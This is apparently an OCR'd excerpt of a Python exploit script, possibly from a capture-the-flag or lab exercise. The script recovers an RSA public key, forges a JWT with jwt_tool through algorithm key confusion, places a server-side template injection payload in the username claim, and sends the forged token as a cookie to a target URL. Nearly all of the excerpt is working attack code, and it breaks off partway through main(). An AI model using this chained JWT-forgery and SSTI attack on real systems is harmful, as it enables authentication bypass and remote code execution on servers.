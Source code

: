 ```python
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

    print(
        f"[*] Recreated RSA Public Key saved to 'recovered_public.key':\n{public_key_pem.decode()}")
    return

# Tamper JWT with jwt_tool
def modify_jwt_with_tool(token):
    print(f"[*] Modifying JWT with jwt_tool...")

    command = [
    "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]

    # Run jwt_tool and capture the output
    result = subprocess.run(command, capture_output=True, text=True)

    # Extract the modified token from jwt_tool output
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            print(f"[*] Modified JWT: {modified_token}")
            return modified_token

    print(f"[!] Modified JWT not found in jwt_tool output")
    return None

# Test SSTI injection
def test_ssti(modified_token):
    cookies = {'token': modified_token}
    print(f"[*] Sending modified JWT in cookies to test SSTI injection...")
    response = requests.get(CAT_URL, cookies=cookies)

    if response.status_code == 200:
        print("[*] SSTI payload executed successfully!")
        print(f"[*] Server response:\n{response.text}")
    else:
        print(
            f"[!] SSTI execution failed: {response.status_code} - {response.text}")

def main():
    username = "cat"
    password = "cat"

    # Step 1: Register user
    if not register_user(username, password):
        print("[!] Failed to register user.")
        return

    # Step 2: Login and retrieve JWT
    jwt_token = login_user(username, password)
    if not jwt_token:
        print("[!] Failed to retrieve JWT.")
        return

    # Step 3: Download JWK (public key)
    jwk = download_jwk()
    if not jwk:
        print("[!] Failed to download JWK.")
```
